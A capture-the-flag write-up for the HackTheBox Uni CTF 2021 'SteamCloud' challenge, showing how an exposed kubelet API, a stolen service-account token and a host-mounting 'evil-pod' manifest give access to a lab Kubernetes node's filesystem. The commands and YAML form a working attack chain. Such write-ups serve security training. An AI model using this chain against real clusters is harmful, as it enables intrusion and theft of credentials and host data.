

# Uni CTF 2021 Quals

## SteamCloud Cloud category challenge write-up :



Last weekend me and my team #Heaven's_Birds participated in Uni CTF 2021 Quals organized by @ HacktheBox .

From the description we knew we were dealing with a k8s cluster. First we attempted to scan the host address we got after starting the machine ( which was different than the node's address running the cluster).


Basically we expected some K8s ports to be opened( See: [https://kubernetes.io/docs/reference/ports-and-protocols/](https://kubernetes.io/docs/reference/ports-and-protocols/) ), after running `nmap -sC -p-` on host and as expected we found the **Kubelet API** port opened **10250.**

We tried then to list existing pods by sending a get request to `[http://10.129.96.107:10250/pods](http://10.129.96.107:10250/pods)` , the response returned pods from `kube-system` namespace and one pod from `default` one. It was an nginx pod, and it also listed an interesting address `10.129.96.98` which was the address of the node running the cluster ( the cluster was deployed on a single machine using minikube so the master and worker node are the same machine).

After googling a lil bit we found this interesting tools to communicate with kubelet API **`Kubeletctl`**

After playing around lil bit with the tool, we run a scan for rce by issuing `kubeletctl scan rce` command. and the result was that nginx pod (and also kube-proxy) were vulnerable to remote code execution. Then we head to `/run/secrets/kubernetes.io/serviceaccount/` to grab the credentials for the default service account that we are going to use later when interacting with `***kube-apiserver.`*** 

A quick scan on the host address found before lists our famous `8443` kube-apiserver port. We can now use kubectl command and the token we grabbed before to interact with kube-apiserver.  

We also played with the command a lil bit trying to list pods and other resources , but we could only list cluster nodes and pods using:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
get nodes,pods --namespace=default`.**

We tried then to deploy a pod if we have permission to that, and it was successfully deployed , but we had one issue the pod kept showing `ImagePullBackOff`, we knew then the image is not going to be pulled so we decide to use an already pulled image from the nginx pod configuration, and our evil pod was like the following: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
  labels:
  name: evil-pod
  namespace: default
spec:
  containers:
  - image: nginx:1.14.2
    imagePullPolicy: Never
    name: evil-container
    volumeMounts:
    - mountPath: /host
      name: node-mount
  volumes:
  - name: node-mount
    hostPath:
      path: /
```

Our pod was successfully deployed and running, then we had back the our `kubeletclt` command to execute some commands on our pod, of course we tried to execute a shell on the pod but no luck:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
exec -it evil-pod --namespace=default -- /bin/sh` .**

The `kubeletctl -s 10.129.96.98 exec "ls -la /host" -p evil-pod -c evil-container`  command is to check that our hostPath was successfully mount on the node, and is was.

Then `kubeletctl -s 10.129.96.98 exec "ls -la /host/root/flag.txt" -p evil-pod -c evil-container` to cat the flag.

**HTB{d0n7_3Xpo53_Ku83L37}.**
